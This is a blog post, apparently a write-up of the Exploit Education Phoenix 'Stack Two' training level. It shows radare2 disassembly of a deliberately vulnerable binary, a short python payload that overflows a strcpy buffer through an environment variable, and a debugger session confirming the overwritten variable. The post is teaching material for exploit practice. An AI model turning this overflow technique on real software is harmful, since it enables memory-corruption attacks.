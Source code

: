 ```yaml
---
layout: post
title:  "Phoenix x86 Stack Two"
date: "2019-10-12 10:00:00 +0300"
categories: exploit-education phoenix x86
---
```


Stack Two is the continuation of the stack-based buffer overflow challenges.

Once more, `rabin2` is used to get some information about the binary.

{% highlight shell %}
$ rabin2 -I /opt/phoenix/i486/stack-two 
arch     x86
baddr    0x8048000
binsz    3750
bintype  elf
bits     32
canary   false
class    ELF32
compiler GCC: (GNU) 7.3.0
crypto   false
endian   little
havecode true
intrp    /opt/phoenix/i486-linux-musl/lib/ld-musl-i386.so.1
laddr    0x0
lang     c
linenum  true
lsyms    true
machine  Intel 80386
maxopsz  16
minopsz  1
nx       false
os       linux
pcalign  0
pic      false
relocs   true
relro    no
rpath    /opt/phoenix/i486-linux-musl/lib
sanitiz  false
static   false
stripped false
subsys   linux
va       true
{% endhighlight %}

Of the important info above, everything is the same as the previous levels. The binary is a 32-bit Linux ELF with no protection against stack overflow.

{% highlight shell %}
$ r2 /opt/phoenix/i486/stack-two
{% endhighlight %}

{%highlight nasm %}
[0x080483b0]> aas
Cannot analyze at 0x08048630
[0x080483b0]> afl
0x0804831c    1 17           sym._init
0x08048500    7 277  -> 112  sym.frame_dummy
0x080485f0    5 49           sym.__do_global_ctors_aux
0x08048621    1 12           sym._fini
0x08048480    8 113  -> 111  sym.__do_global_dtors_aux
0x08048114   49 556  -> 650  sym..interp
0x080483b0    1 62           entry0
0x080483a0    1 6            sym.imp.__libc_start_main
0x08048744    1 14           loc.__GNU_EH_FRAME_HDR
0x08048760    3 34           sym..eh_frame
0x0804879c    1 41           obj.__EH_FRAME_BEGIN
0x080483f0    4 49   -> 40   sym.deregister_tm_clones
0x08048545    6 156          main
0x08048370    1 6            sym.imp.puts
0x08048360    1 6            sym.imp.getenv
0x08048380    1 6            sym.imp.errx
0x08048340    1 6            sym.imp.strcpy
0x08048350    1 6            sym.imp.printf
0x08048390    1 6            sym.imp.exit
[0x080483b0]> s main
[0x08048545]> pdf
/ (fcn) main 156
|   int main (int argc, char **argv, char **envp);
|           ; var int32_t var_50h @ ebp-0x50
|           ; var int32_t var_10h @ ebp-0x10
|           ; var int32_t var_ch @ ebp-0xc
|           ; arg int32_t arg_4h @ esp+0x4
|           ; DATA XREF from entry0 @ 0x80483e4
|           0x08048545      8d4c2404       lea ecx, [arg_4h]
|           0x08048549      83e4f0         and esp, 0xfffffff0
|           0x0804854c      ff71fc         push dword [ecx - 4]
|           0x0804854f      55             push ebp
|           0x08048550      89e5           mov ebp, esp
|           0x08048552      51             push ecx
|           0x08048553      83ec54         sub esp, 0x54
|           0x08048556      83ec0c         sub esp, 0xc
|           0x08048559      6830860408     push str.Welcome_to_phoenix_stack_two__brought_to_you_by_https:__exploit.education ; sym..rodata
|                                                                      ; 0x8048630 ; "Welcome to phoenix/stack-two, brought to you by https://exploit.education"
|           0x0804855e      e80dfeffff     call sym.imp.puts           ; int puts(const char *s)
|           0x08048563      83c410         add esp, 0x10
|           0x08048566      83ec0c         sub esp, 0xc
|           0x08048569      687a860408     push str.ExploitEducation   ; 0x804867a ; "ExploitEducation"
|           0x0804856e      e8edfdffff     call sym.imp.getenv         ; char *getenv(const char *name)
|           0x08048573      83c410         add esp, 0x10
|           0x08048576      8945f4         mov dword [var_ch], eax
|           0x08048579      837df400       cmp dword [var_ch], 0
|       ,=< 0x0804857d      750f           jne 0x804858e
|       |   0x0804857f      83ec08         sub esp, 8
|       |   0x08048582      688c860408     push str.please_set_the_ExploitEducation_environment_variable ; 0x804868c ; "please set the ExploitEducation environment variable"
|       |   0x08048587      6a01           push 1                      ; 1
|       |   0x08048589      e8f2fdffff     call sym.imp.errx           ; void errx(int eval)
|       `-> 0x0804858e      c745f0000000.  mov dword [var_10h], 0
|           0x08048595      83ec08         sub esp, 8
|           0x08048598      ff75f4         push dword [var_ch]
|           0x0804859b      8d45b0         lea eax, [var_50h]
|           0x0804859e      50             push eax
|           0x0804859f      e89cfdffff     call sym.imp.strcpy         ; char *strcpy(char *dest, const char *src)
|           0x080485a4      83c410         add esp, 0x10
|           0x080485a7      8b45f0         mov eax, dword [var_10h]
|           0x080485aa      3d0a090a0d     cmp eax, 0xd0a090a
|       ,=< 0x080485af      7512           jne 0x80485c3
|       |   0x080485b1      83ec0c         sub esp, 0xc
|       |   0x080485b4      68c4860408     push str.Well_done__you_have_successfully_set_changeme_to_the_correct_value ; 0x80486c4 ; "Well done, you have successfully set changeme to the correct value"
|       |   0x080485b9      e8b2fdffff     call sym.imp.puts           ; int puts(const char *s)
|       |   0x080485be      83c410         add esp, 0x10
|      ,==< 0x080485c1      eb14           jmp 0x80485d7
|      |`-> 0x080485c3      8b45f0         mov eax, dword [var_10h]
|      |    0x080485c6      83ec08         sub esp, 8
|      |    0x080485c9      50             push eax
|      |    0x080485ca      6808870408     push str.Almost__changeme_is_currently_0x_08x__we_want_0x0d0a090a ; 0x8048708 ; "Almost! changeme is currently 0x%08x, we want 0x0d0a090a\n"
|      |    0x080485cf      e87cfdffff     call sym.imp.printf         ; int printf(const char *format)
|      |    0x080485d4      83c410         add esp, 0x10
|      |    ; CODE XREF from main @ 0x80485c1
|      `--> 0x080485d7      83ec0c         sub esp, 0xc
|           0x080485da      6a00           push 0
\           0x080485dc      e8affdffff     call sym.imp.exit           ; void exit(int status)
[0x08048545]> agf
[0x08048545]>  # int main (int argc, char **argv, char **envp);
                    .---------------------------------------------------------------------------------------.
                    |  0x8048545                                                                            |
                    | (fcn) main 156                                                                        |
                    |   int main (int argc, char **argv, char **envp);                                      |
                    | ; var int32_t var_50h @ ebp-0x50                                                      |
                    | ; var int32_t var_10h @ ebp-0x10                                                      |
                    | ; var int32_t var_ch @ ebp-0xc                                                        |
                    | ; arg int32_t arg_4h @ esp+0x4                                                        |
                    | ; DATA XREF from entry0 @ 0x80483e4                                                   |
                    | lea ecx, [arg_4h]                                                                     |
                    | and esp, 0xfffffff0                                                                   |
                    | push dword [ecx - 4]                                                                  |
                    | push ebp                                                                              |
                    | mov ebp, esp                                                                          |
                    | push ecx                                                                              |
                    | sub esp, 0x54                                                                         |
                    | sub esp, 0xc                                                                          |
                    | ; sym..rodata                                                                         |
                    | ; 0x8048630                                                                           |
                    | ; "Welcome to phoenix/stack-two, brought to you by https://exploit.education"         |
                    | push str.Welcome_to_phoenix_stack_two__brought_to_you_by_https:__exploit.education    |
                    | ; int puts(const char *s)                                                             |
                    | call sym.imp.puts;[oa]                                                                |
                    | add esp, 0x10                                                                         |
                    | sub esp, 0xc                                                                          |
                    | ; 0x804867a                                                                           |
                    | ; "ExploitEducation"                                                                  |
                    | push str.ExploitEducation                                                             |
                    | ; char *getenv(const char *name)                                                      |
                    | call sym.imp.getenv;[ob]                                                              |
                    | add esp, 0x10                                                                         |
                    | mov dword [var_ch], eax                                                               |
                    | cmp dword [var_ch], 0                                                                 |
                    | jne 0x804858e                                                                         |
                    `---------------------------------------------------------------------------------------'
                            f t
                            | |
                            | '---------------------------------------------.
    .-----------------------'                                               |
    |                                                                       |
.------------------------------------------------------------------.    .---------------------------------------------.
|  0x804857f                                                       |    |  0x804858e                                  |
| sub esp, 8                                                       |    | mov dword [var_10h], 0                      |
| ; 0x804868c                                                      |    | sub esp, 8                                  |
| ; "please set the ExploitEducation environment variable"         |    | push dword [var_ch]                         |
| push str.please_set_the_ExploitEducation_environment_variable    |    | lea eax, [var_50h]                          |
| ; 1                                                              |    | push eax                                    |
| push 1                                                           |    | ; char *strcpy(char *dest, const char *src) |
| ; void errx(int eval)                                            |    | call sym.imp.strcpy;[od]                    |
| call sym.imp.errx;[oc]                                           |    | add esp, 0x10                               |
`------------------------------------------------------------------'    | mov eax, dword [var_10h]                    |
                                                                        | cmp eax, 0xd0a090a                          |
                                                                        | jne 0x80485c3                               |
                                                                        `---------------------------------------------'
                                                                                f t
                                                                                | |
                                                                                | '---------------------.
                  .-------------------------------------------------------------'                       |
                  |                                                                                     |
              .--------------------------------------------------------------------------------.    .----------------------------------------------------------------------.
              |  0x80485b1                                                                     |    |  0x80485c3                                                           |
              | sub esp, 0xc                                                                   |    | mov eax, dword [var_10h]                                             |
              | ; 0x80486c4                                                                    |    | sub esp, 8                                                           |
              | ; "Well done, you have successfully set changeme to the correct value"         |    | push eax                                                             |
              | push str.Well_done__you_have_successfully_set_changeme_to_the_correct_value    |    | ; 0x8048708                                                          |
              | ; int puts(const char *s)                                                      |    | ; "Almost! changeme is currently 0x%08x, we want 0x0d0a090a\n"       |
              | call sym.imp.puts;[oa]                                                         |    | push str.Almost__changeme_is_currently_0x_08x__we_want_0x0d0a090a    |
              | add esp, 0x10                                                                  |    | ; int printf(const char *format)                                     |
              | jmp 0x80485d7                                                                  |    | call sym.imp.printf;[oe]                                             |
              `--------------------------------------------------------------------------------'    | add esp, 0x10                                                        |
                  v                                                                                 `----------------------------------------------------------------------'
                  |                                                                                     v
                  |                                                                                     |
                  '----------------------------------------------------------------.                    |
                                                                                   | .------------------'
                                                                                   | |
                                                                             .-----------------------------------.
                                                                             |  0x80485d7                        |
                                                                             | ; CODE XREF from main @ 0x80485c1 |
                                                                             | sub esp, 0xc                      |
                                                                             | push 0                            |
                                                                             | ; void exit(int status)           |
                                                                             | call sym.imp.exit;[of]            |
                                                                             `-----------------------------------'
{% endhighlight %}

What differs from the previous level is the fact that the input is read via an environment variable. The objective remains the same, which is to overwrite a local variable, `var_10h`. This is feasible because there is a call to `strcpy` that copies the contents of the environment variable `ExploitEducation` to the buffer `var_50h`.

The value that needs to be put in `var_10h` is `0xd0a090a`.

Here follows a `python3` script to create the exploit:

{% highlight python %}
#!/usr/bin/env python3
import os

os.write(1, b'\x58'*64 + b'\x0a\x09\x0a\x0d')
{% endhighlight %}

{% highlight shell %}
$ ./theScript.py > pattern
$ export ExploitEducation=`cat pattern`
{% endhighlight %}

Now the binary can be debugged.

{% highlight shell %}
$ r2 -d /opt/phoenix/i486/stack-two
{% endhighlight %}

{% highlight nasm %}
[0xf7ed0d4b]> aas
Cannot analyze at 0x08048630
[0xf7ed0d4b]> db 0x0804859f
[0xf7ed0d4b]> dc
Welcome to phoenix/stack-two, brought to you by https://exploit.education
hit breakpoint at: 804859f
[0x0804859f]> dr
eax = 0xffba6fb8
ebx = 0xf7f06000
ecx = 0x0000006e
edx = 0x00000010
esi = 0xffba7094
edi = 0x00000001
esp = 0xffba6fa0
ebp = 0xffba7008
eip = 0x0804859f
eflags = 0x00000292
oeax = 0xffffffff
[0x0804859f]> px/24xw 0xffba6fa0
0xffba6fa0  0xffba6fb8 0xffba7caf 0x00000084 0x00000010  .o...|..........
0xffba6fb0  0x0804831c 0x08048621 0x00000000 0x00000063  ....!.......c...
0xffba6fc0  0x00000000 0x00000000 0x00000000 0x00000000  ................
0xffba6fd0  0x00000011 0xf7f0819c 0x00000000 0x080482e4  ................
0xffba6fe0  0x00000000 0x00000000 0x00000000 0x00000000  ................
0xffba6ff0  0x00000000 0x00000000 0x00000000 0xffba7caf  .............|..
[0x0804859f]> px/xw 0xffba7008-0x10
0xffba6ff8  0x00000000                                   ....
[0x0804859f]> dso
hit breakpoint at: 80485a4
[0x0804859f]> px/24xw 0xffba6fa0
0xffba6fa0  0xffba6fb8 0xffba7caf 0x00000084 0x00000010  .o...|..........
0xffba6fb0  0x0804831c 0x08048621 0x58585858 0x58585858  ....!...XXXXXXXX
0xffba6fc0  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xffba6fd0  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xffba6fe0  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xffba6ff0  0x58585858 0x58585858 0x0d0a090a 0xffba7c00  XXXXXXXX.....|..
[0x0804859f]> px/xw 0xffba7008-0x10
0xffba6ff8  0x0d0a090a                                   ....
[0x0804859f]> dc
Well done, you have successfully set changeme to the correct value
{% endhighlight %}

## Conclusion
This level is almost identical to the previous one, with one little difference. That is, the input needs to be passed through an environment variable and not as an argument.